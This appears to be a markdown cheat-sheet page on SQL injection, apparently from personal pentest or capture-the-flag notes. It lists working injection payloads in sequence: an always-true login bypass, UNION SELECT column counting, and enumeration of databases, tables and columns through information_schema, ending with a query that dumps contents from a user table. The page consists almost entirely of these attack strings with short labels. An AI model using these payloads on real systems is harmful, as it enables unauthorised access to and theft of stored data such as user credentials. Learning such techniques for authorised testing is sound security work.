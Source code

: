 ```yaml
---
icon: syringe
---
```


# SQLi

{% hint style="info" %}
### <mark style="color:green;">`Python`</mark> <mark style="color:purple;">doesn't need</mark> <mark style="color:orange;">`;`</mark> <mark style="color:purple;">at the end!</mark>
{% endhint %}

***

{% hint style="info" %}
### <mark style="color:purple;">Recon</mark>

{% code title="Basic test" %}
```sql
' or 1=1-- -;
```
{% endcode %}

### <mark style="color:purple;">Union</mark>

* <mark style="color:purple;">First, find the number of columns:</mark>

```sql
' union select 1-- -;
```

```sql
' union select 1,2-- -;
```

```sql
' union select 1,2,3-- -;
```

```sql
' union select 1,2,3,4-- -;
```

* <mark style="color:purple;">Once you know the number of columns:</mark>

{% code title="Current database" %}
```sql
' union select 1,2,3,database()--; 
```
{% endcode %}

* <mark style="color:purple;">If you want to know how many databases there are:</mark>

{% code title="Information Schema" overflow="wrap" %}
```sql
' union select 1,2,3,concat(schema_name, ':') from information_schema.schemata-- -;
```
{% endcode %}

* <mark style="color:purple;">To look how many tables in a database:</mark>

{% code overflow="wrap" %}
```sql
' union select 1,2,3,concat(table_name, ':') from information_schema.tables where table_schema = 'database'-- -;
```
{% endcode %}

* <mark style="color:purple;">To look how many columns in a table:</mark>

{% code overflow="wrap" %}
```sql
' union select 1,2,3,concat(column_name, ':') from information_schema.columns where table_name = 'table'-- -;
```
{% endcode %}

* <mark style="color:purple;">To look the content of the columns:</mark>

{% code overflow="wrap" %}
```sql
' union select 1,2,3,concat(column1, ':', column2, ':', column3, ':', column4) from user-- -
```
{% endcode %}
{% endhint %}

